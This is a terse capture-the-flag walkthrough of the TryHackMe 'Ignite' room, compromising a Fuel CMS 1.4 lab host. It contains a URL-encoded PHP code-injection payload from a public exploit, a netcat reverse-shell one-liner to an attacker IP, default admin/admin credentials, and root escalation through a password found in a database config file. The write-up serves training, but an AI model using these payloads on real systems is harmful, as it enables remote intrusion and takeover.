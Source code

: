 \https://tryhackme.com/room/ignite

IP:10.10.100.29

```
---------------------Starting Nmap Quick Scan---------------------

Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-08 11:20 EDT
Nmap scan report for 10.10.100.29
Host is up (0.41s latency).
Not shown: 861 closed ports, 138 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.38 seconds

```

http://10.10.100.29/fuel/login/5a6e566c6243396b59584e6f596d3968636d513d

login with 
```
admin
admin
```

gobuster results
```
http://10.10.100.29:80/home (Status: 200) [Size: 16601]
http://10.10.100.29:80/index (Status: 200) [Size: 16601]
http://10.10.100.29:80/index.php (Status: 200) [Size: 16601]
http://10.10.100.29:80/assets (Status: 301) [Size: 313]
```


google fuel 1.4
found https://www.exploit-db.com/exploits/47138 

copy python script

check if it is python 2 or python 3

```
python2 -m py_compile foo.py
python3 -m py_compile foo.py
```

if requests not installed
```
python -m pip install requests
```

change ip address in script

run script

```
kali@kali:~/Downloads$ python test.py
cmd:ls
Traceback (most recent call last):
  File "test.py", line 26, in <module>
    r = requests.get(burp0_url, proxies=proxy)
  File "/home/kali/.local/lib/python2.7/site-packages/requests/api.py", line 76, in get
    return request('get', url, params=params, **kwargs)
  File "/home/kali/.local/lib/python2.7/site-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/home/kali/.local/lib/python2.7/site-packages/requests/sessions.py", line 530, in request
    resp = self.send(prep, **send_kwargs)
  File "/home/kali/.local/lib/python2.7/site-packages/requests/sessions.py", line 643, in send
    r = adapter.send(request, **kwargs)
  File "/home/kali/.local/lib/python2.7/site-packages/requests/adapters.py", line 510, in send
    raise ProxyError(e, request=request)
requests.exceptions.ProxyError: HTTPConnectionPool(host='127.0.0.1', port=8080): Max retries exceeded with url: http://10.10.100.29/fuel/pages/select/?filter=%27%2Bpi%28print%28%24a%3D%27system%27%29%29%2B%24a%28%27ls%27%29%2B%27 (Caused by ProxyError('Cannot connect to proxy.', NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7f072a57da90>: Failed to establish a new connection: [Errno 111] Connection refused',)))

```

it failed due to proxyError it is trying to connect to 127.0.0.1 port 8080

looking at the code it mentions burp and proxy referring to burp suite

we can run burp suite first then the code will run, other wise just remove the proxy line from requests



found netcat OpenBsd reverse shell that works on this webpage https://medium.com/@pravinponnusamy/reverse-shell-payloads-969366fa5aff

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.9.144 1234 >/tmp/f
```


cat the flag

```
whoami
cd /home/www-data
cat flag.txt
```

on the home page

```

Install the database

Install the FUEL CMS database by first creating the database in MySQL and then importing the fuel/install/fuel_schema.sql file. After creating the database, change the database configuration found in fuel/application/config/database.php to include your hostname (e.g. localhost), username, password and the database to match the new database you created.
```

search for the file database.php

```
find / -name database.php 2>/dev/null

/var/www/html/fuel/application/config/database.php
```

cat out this file and read the root password

```
mememe
```

switch user

```
su root
```

but get error
```
sudo: no tty present and no askpass program specified

```

upgrade shell

su root

cat /root/root.txt

